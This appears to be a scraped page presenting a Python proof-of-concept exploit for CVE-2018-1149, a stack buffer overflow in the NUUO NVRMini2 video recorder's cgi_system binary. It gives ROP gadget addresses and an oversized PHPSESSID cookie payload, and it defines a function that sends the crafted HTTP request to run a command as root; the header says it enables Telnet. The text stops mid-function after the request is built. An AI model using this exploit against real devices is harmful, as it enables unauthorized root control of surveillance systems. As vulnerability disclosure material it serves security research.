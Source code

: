 ```shell
root
```



POC如下

```python 
import requests
import socket
import sys
 
##
# Exploit Title: NUUO NVRMini2 3.8 Enable Telnet
# Date: September 17, 2018
# Exploit Author: Jacob Baines
# Vendor Homepage: https://www.nuuo.com/
# Device: NRVMini2
# Software Link: https://www.nuuo.com/ProductNode.php?node=2
# Versions: 3.8.0 and below
# Tested Against: 03.07.0000.0011 and 03.08.0000.0005
# Tested on: Ubuntu and OSX
# CVE: CVE-2018-1149
# TRA: https://www.tenable.com/security/research/tra-2018-25
# Description:
#
# A stack buffer overflow exists in the cgi_system binary. The error occurs
# due to lack of bounds checking on the PHPSESSID value before and when
# it is passed to sprintf in order to generate the session id file name.
#
# As written, this exploit enables Telnet.
###

##
# Executes a command via the stack buffer overflow in cookie parsing. The command
# is executed via 'system' as root. The overlow logic is like so:
#
# address 1: 405e2e34 - load system into r3 and address 2 into lr
#
# .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}
# .text:000D0E38 1E FF 2F E1                 BX      LR
#
# address 2: 406037cc - load the system command into r0. Jump to system.
#
# .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
# .text:000F17D0 33 FF 2F E1                 BLX     R3
#
# [   address 1  ][       r0     ][      r1      ][      r2      ][  r3 system   ][      r11     ][  LR - addr2  ][ system command ]
# \x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40touch /tmp/lolwat
##
def stack_buffer_overflow(command, ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print '[+] Executing %s on %s:%s...' % (command, ip, port)
    sock.connect((ip, int(port)))
    exec_request = ('GET /cgi-bin/cgi_system?cmd=portCheck HTTP/1.1\r\n' +
                    'Host: ' + ip + ':' + port + '\r\n' +
                    'Accept: */*\r\n' +
                    'Cookie: PHPSESSID=982e6c010064b3878a4b793bfab8d2d2' +
                    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD' +
                    '\x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40' + command +
                    '\r\n\r\n')
```